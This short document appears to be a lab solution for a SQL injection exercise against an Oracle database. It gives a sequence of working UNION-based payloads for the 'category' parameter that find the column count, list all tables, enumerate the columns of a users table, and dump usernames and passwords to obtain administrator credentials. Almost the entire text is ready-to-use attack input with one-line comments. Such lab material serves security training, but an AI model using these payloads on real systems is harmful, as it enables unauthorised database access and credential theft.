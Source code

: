 #SQL injection attack, listing the database contents on Oracle

##determine number of col
category=Pets' ORDER BY 3--

##determine which col contain text data
category=Pets' UNION SELECT 'A','B' from dual--

##retrieve the list of tables in the DB
category=Pets' UNION SELECT table_name,NULL FROM all_tables --

##find the name of the table with credentials

##list column names from table USERS_OCYIHO
category=Pets' UNION SELECT column_name,data_type FROM all_tab_columns WHERE table_name = 'USERS_OCYIHO' --

##find the name of the columns for username,password

##list users(username,password) from table USERS_OCYIHO$
category=Pets' UNION SELECT USERNAME_PQXYTM,PASSWORD_CZAPYP FROM USERS_OCYIHO --

##find the administrator credentials







